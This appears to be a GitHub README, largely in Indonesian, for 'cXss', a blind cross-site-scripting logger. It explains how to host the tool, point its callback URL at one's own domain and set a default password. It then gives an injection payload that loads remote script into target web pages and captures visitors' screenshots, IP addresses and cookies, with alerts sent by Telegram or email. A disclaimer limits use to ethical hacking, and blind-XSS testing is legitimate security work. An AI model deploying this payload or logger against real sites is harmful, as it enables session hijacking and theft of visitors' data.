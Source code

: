 # cXss
Capture XSS

## ScreenShot
![Alt text](https://raw.githubusercontent.com/vsec7/cXss/master/screenshot/1.png "screenshot")
![Alt text](https://raw.githubusercontent.com/vsec7/cXss/master/screenshot/2.png "screenshot")

#### Created By : Versailles ~ Sec7or Team

cXss adalah Capture XSS / CansXSS :p digunakan untuk Testing Blind XSS.

*Untuk yang ingin membuat logger XSS sendiri seperti xsshunter.*

### FEATURES
	- Mengirim Notifikasi ke Telegram dan Email
	- cXss men-capture beberapa data korban yg Ter-Trigger XSS diantara nya :
		- Screenshoot
		- Victim IP address
		- Victim Cookies
		- dll

### INSTALLATION
git clone / upload repo ini di web server anda

#### Edit File index.js , ganti cans.evils.in dengan domain anda
```
    var url = "http://cans.evils.in/callback";
```

#### Edit file inc/conf.php dengan konfigurasi anda
```
<?php
include("function.php");

// Configurations

// jsonstore.io
$db = ""; 

// Password For Login
$pass = "a820fa8139a40b4590608dd738348d0a"; // default md5 pass : cans , Empty this field if not used

// Set Your Telegram Bot Token & Telegram Recipient ID
$token = ""; // Empty this field if not used
$idRecipient = ""; // Empty this field if not used

// Set Your Email Address
$email = ""; // Empty this field if not used

// -----------------------------------------------------------------------------------------------
$warna = rand_color(); // you can set rand_color() OR which one "primary","success","danger","warning","secondary"

```

### HOW TO USE ?
Sisipkan salah satu payload xss di web target .

```
"><script src=http://yourdomain></script>
```
#### To See Result :
**yourdmain.com/cans/**

## PERHATIAN !
*Hanya untuk pembelajaran dan kegiatan Ethical Of Hacking, Hal negatif yang anda perbuat dengan tool ini diluar tanggung jawab author*

Demo : **http://cans.evils.in**

Donation Paypal : vsec48@gmail.com :v

Thanks :) I miss You Cans .. :)
